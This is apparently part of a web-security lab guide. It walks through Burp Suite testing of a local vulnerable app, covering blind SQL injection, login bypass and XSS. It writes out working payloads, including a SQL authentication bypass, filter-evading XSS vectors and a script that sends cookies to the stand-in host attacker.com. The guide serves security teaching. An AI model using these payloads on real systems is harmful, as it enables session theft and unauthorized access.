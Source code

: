 #### Step 5: Time-Based Blind SQL Injection
1. Switch to "Blind SQLi" tab
2. **Burp Action:** Send request to Intruder
3. Test time-based injection:
   ```
   GET /api/vuln/sqli?type=blind&input=1' AND SLEEP(5)-- HTTP/1.1
   ```
4. **Burp Observation:** Note response time delay of ~5 seconds
5. **Screenshot Location:** Save Intruder results showing timing differences

#### Step 6: Authentication Bypass
1. Switch to "Auth Bypass" tab
2. **Payload in username field:**
   ```
   admin' OR '1'='1'--
   ```
3. **Payload in password field:**
   ```
   anything
   ```
4. **Burp Action:** Intercept and observe successful authentication bypass
5. **Screenshot Location:** Save response showing successful admin access

---

### Cross-Site Scripting (XSS) Lab

**Lab URL:** `http://localhost:5000/api/vuln/xss`

**Objective:** Exploit reflected, stored, and DOM-based XSS vulnerabilities.

#### Step 1: Reflected XSS Discovery
1. Navigate to XSS lab with Burp proxy enabled
2. Test basic XSS payload in search field:
   ```
   <script>alert('XSS')</script>
   ```
3. **Burp Action:** Intercept request and send to Repeater
4. **URL-encode payload for testing:**
   ```
   GET /api/vuln/xss?search=%3Cscript%3Ealert%28%27XSS%27%29%3C%2Fscript%3E HTTP/1.1
   ```
5. **Screenshot Location:** Save response showing XSS payload execution

#### Step 2: Filter Bypass Techniques
1. **Test various payloads to bypass filters:**
   ```
   <img src=x onerror=alert('XSS')>
   <svg onload=alert('XSS')>
   <iframe src="javascript:alert('XSS')">
   ```
2. **Burp Action:** Use Intruder to test multiple payloads
3. **Screenshot Location:** Save successful bypass techniques

#### Step 3: Cookie Theft Simulation
1. **Advanced payload for cookie extraction:**
   ```
   <script>document.location='http://attacker.com/steal?cookie='+document.cookie</script>
   ```
2. **Burp Action:** Show intercepted request with cookie in URL
3. **Screenshot Location:** Save evidence of cookie theft attempt

---